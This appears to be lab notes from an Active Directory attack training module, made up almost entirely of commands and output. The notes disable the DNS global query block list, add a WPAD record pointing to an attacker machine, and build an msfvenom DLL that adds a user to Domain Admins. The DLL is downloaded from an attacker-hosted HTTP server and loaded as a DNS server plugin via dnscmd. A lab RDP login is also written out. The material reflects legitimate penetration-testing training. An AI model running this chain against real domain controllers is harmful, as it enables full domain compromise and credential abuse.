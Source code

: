 1) Disabling the Global Query Block List

```
Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local
```

2) Adding a WPAD Record pointing to our attack machine

```
Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local -ComputerName dc01.inlanefreight.local -IPv4Address 10.10.14.3
```

## LAB

xfreerdp /v:10.129.175.116 /u:netadm /p:HTB_@cademy_stdnt!



msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 313 bytes
Final size of dll file: 9216 bytes
Saved as: adduser.dll


python3 -m http.server 7777

PS C:\Users\netadm> wget "http://10.10.15.249:7777/adduser.dll" -outfile "adduser.dll"
PS C:\Users\netadm> dir


    Directory: C:\Users\netadm


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        5/19/2021   1:38 PM                3D Objects
d-r---        5/19/2021   1:38 PM                Contacts
d-r---         6/8/2021   9:19 PM                Desktop
d-r---        5/19/2021   1:38 PM                Documents
d-r---        5/19/2021   1:38 PM                Downloads
d-r---        5/19/2021   1:38 PM                Favorites
d-r---        5/19/2021   1:38 PM                Links
d-r---        5/19/2021   1:38 PM                Music
d-r---        5/19/2021   1:38 PM                Pictures
d-r---        5/19/2021   1:38 PM                Saved Games
d-r---        5/19/2021   1:38 PM                Searches
d-r---        5/19/2021   1:38 PM                Videos
-a----        1/31/2024   3:55 AM           9216 adduser.dll


C:\Users\netadm>dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\adduser.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.
